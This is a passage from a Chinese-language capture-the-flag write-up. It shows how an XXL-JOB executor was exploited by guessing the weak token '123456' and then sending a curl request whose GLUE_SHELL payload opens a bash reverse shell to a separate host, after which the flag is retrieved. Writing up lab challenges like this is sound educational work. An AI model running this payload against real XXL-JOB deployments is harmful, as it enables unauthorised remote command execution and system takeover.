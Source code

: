反弹成功后，翻找目录找到flag。

## web-22 破解Token认证

提示说找找其它端口，发现开启了9999端口，结合端口和分布式调度关键词，查找获取信息，可能是XXL-JOB调度的executor。

访问地址，果然是这样。executor开启了token认证，但是弱口令猜测123456成功。

基于以上，构造数据发送给executor执行shell命令，反弹shell。

```shell
curl --location --request POST 'http://10.38.202.127:9999/run' \
--header 'Content-Type: application/json' \
--header 'XXL-JOB-ACCESS-TOKEN: 123456' \
--data-raw '{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1655774599001,
  "glueType": "GLUE_SHELL",
  "glueSource": "/bin/bash -i >& /dev/tcp/10.167.90.69/3000 0>&1",
  "glueUpdatetime": 1655774599000,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
'
```

翻找目录获得flag。

## web-23 简单小游戏

小游戏挺好玩

![小游戏成功代码](./web-23-1.png)
